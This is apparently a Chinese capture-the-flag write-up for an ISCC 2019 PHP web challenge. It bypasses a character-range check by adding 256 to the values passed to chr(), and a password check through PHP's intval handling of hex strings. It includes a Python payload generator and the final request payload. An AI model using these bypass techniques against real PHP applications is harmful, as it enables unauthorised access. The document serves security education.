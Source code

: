 2.审代码。

首先看到从请求中获取了 value 和 password，其中 value 是个数组，先判断是否大于 33 小于 127，符合会被 unset 不处理，不符合的才基于 ASCII 码表将其中的元素逐个从数字转为字符，拼接成用户名。

然后判断用户名是否为 w3lc0me_To_ISCC2019，再判断用 intval 之后的 password 是否小于 2333， intval 之后的 password + 1 是否大于 2333。

3.看到这里，

+   首先是如何绕过那个 大于 33 小于  127 的判断，还要能让 username 能被正确拼接出来。
+   这里我们查一下 chr 函数的文档 [https://www.php.net/manual/en/function.chr.php](https://www.php.net/manual/en/function.chr.php)，里面有这样提到

![](https://www.zhaoj.in/wp-content/uploads/2019/05/1558355440bb0cd613b6abc1ece7ab32a4f1469b78-1024x226.png)

会对传入值取 256 模。那么我们传入一个大一些的数字就可以绕过了。

写个小脚本来生成 payload:

```
input_str = input()
result = ''

for i in input_str:
    result += '&value[]=' + str(ord(i) + 256)

print(result)
```

![](https://www.zhaoj.in/wp-content/uploads/2019/05/15583556990b48848924e487ad335b8d5686843992-1024x218.png)

> 对于 password 的判断，想起了 intval 的缺陷，只处理能处理的字符，比如对于 intval(&#8216;0x01&#8217;)，执行之后返回 0，但要是 intval(&#8216;0x01&#8217; + 1) 呢？PHP 会先将 &#8216;0x01&#8217; 视作十六进制数与 1 相加，再丢给 intval 处理，那么结果就是 2，可以用下面的代码进行测试。

```
<?php
//0
echo intval('0x01').' ';
//2
echo intval('0x01' + 1).' ';
```

4. OK，那对照 ASCII 码表，以及上面我们的结论，得出以下 payload:

```
/?password=0xaaaa&value[]=375&value[]=307&value[]=364&value[]=355&value[]=304&value[]=365&value[]=357&value[]=351&value[]=340&value[]=367&value[]=351&value[]=329&value[]=339&value[]=323&value[]=323&value[]=306&value[]=304&value[]=305&value[]=313
```

`0xaaaa = 43690 > 2333`

5. 请求一下~

![](https://www.zhaoj.in/wp-content/uploads/2019/05/15583557670dd9c75bf70bcda3921411d61cf801dd-1024x403.png)

6. Flag 到手~
